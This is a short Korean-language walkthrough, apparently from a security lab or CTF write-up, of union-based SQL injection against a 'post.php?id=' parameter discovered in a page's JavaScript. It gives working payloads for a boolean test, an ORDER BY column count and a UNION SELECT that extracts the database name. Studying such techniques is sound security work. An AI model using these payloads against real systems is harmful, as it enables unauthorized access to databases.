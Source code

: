 ![sns 1 parameter](/assets/screenshots/union-sqli/sns_1_parameter.png)

페이지 코드 상에서는 사용자가 직접 쿼리 문자열을 조작할 수 있는 입력 필드는 존재하지 않았다.
그러나 JavaScript 코드를 분석한 결과, **post.php?id= 및 comments.php?post_id=** 형태로 동작하는 요청이 존재함을 확인할 수 있었다.

`post.php?id=` 파라미터가 서버로 전달되는 것을 확인한 뒤, 이 인자에 대해 **SQL Injection 시도를 진행**하였다.

```html
13+and+1=1--+
```

이후 `ORDER BY` 구문을 이용해 **SELECT 문에서 사용되는 컬럼의 개수**를 파악한 뒤, `UNION SELECT`를 통해 **데이터베이스 이름**을 추출하였다.

> ORDER BY 컬럼 수 확인
```html
13+order+by+8--+
```

> 데이터베이스 이름 추출
```html
13+union+select+database(),2,3,4,5,6,7,8--+
```
